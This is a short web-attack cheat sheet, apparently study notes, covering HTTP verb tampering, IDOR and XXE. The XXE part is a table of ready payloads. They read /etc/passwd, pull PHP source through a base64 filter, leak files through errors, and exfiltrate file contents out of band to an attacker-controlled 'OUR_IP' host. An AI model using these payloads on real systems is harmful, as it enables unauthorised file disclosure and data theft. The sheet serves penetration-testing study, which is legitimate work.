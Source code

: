 # Web Attacks Cheat Sheet

## HTTP Verb Tampering
### HTTP Method
- HEAD
- PUT
- DELETE
- OPTIONS
- PATCH

| Command | Description |
|---------|-------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

## IDOR
### Identify IDORs
- In URL parameters & APIs
- In AJAX Calls
- By understanding reference hashing/encoding
- By comparing user roles

| Command | Description |
|---------|-------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## XXE
| Code | Description |
|------|-------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |